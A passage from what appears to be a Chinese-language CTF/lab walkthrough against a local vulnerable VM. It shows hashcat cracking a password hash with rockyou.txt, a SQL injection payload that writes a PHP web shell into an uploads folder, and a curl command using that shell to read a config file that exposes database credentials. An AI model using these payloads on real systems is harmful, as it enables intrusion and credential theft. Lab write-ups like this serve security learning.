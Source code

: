     Optimizers applied:
    * Zero-Byte
    * Early-Skip
    * Not-Salted
    * Not-Iterated
    * Single-Hash
    * Single-Salt
    * Raw-Hash
    
    ATTENTION! Pure (unoptimized) backend kernels selected.
    Pure kernels can crack longer passwords, but drastically reduce performance.
    If you want to switch to optimized kernels, append -O to your commandline.
    See the above message to find out about the exact limits.
    
    Watchdog: Temperature abort trigger set to 90c
    
    Host memory required for this attack: 1 MB
    
    Dictionary cache hit:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344385
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    
    c6d6bd7ebf806f43c76acc3681703b81:omega                    
                                                             
    ```

-   得到用户名以及密码：ramses，密码：omega

### sql注入2

-   使用sql注入直接写入一个`php`的小马到之前探测到的`/uploads`文件夹下。

-   >   " union select "<?php system($_GET['cmd']); ?>","","" into outfile "/var/www/html/uploads/shell.php" -- - 

-   尝试访问

-   ![image-20230729124025790](https://raw.githubusercontent.com/r0o983/images/main/image-20230729124025790.png)

-   读取当前数据库的配置文件,当前sql查询页面`kzMb5nVYJw/420search.php`

-   ```shell
    ❯ curl http://192.168.2.147/uploads/shell.php\?cmd\=cat%20/var/www/html/kzMb5nVYJw/420search.php 
    1       ramses
    2       isis    employee
    <?php
    $word = $_GET["usrtosearch"];
    
    $dbhost = 'localhost:3036';
    $dbuser = 'root';
    $dbpass = 'sunnyvale';
    $conn = mysql_connect($dbhost, $dbuser, $dbpass);
    if(! $conn )
    {
      die('Could not connect: ' . mysql_error());
    }
    $sql = 'SELECT id, user, position FROM users WHERE user LIKE "%'.$word.'%" ';
    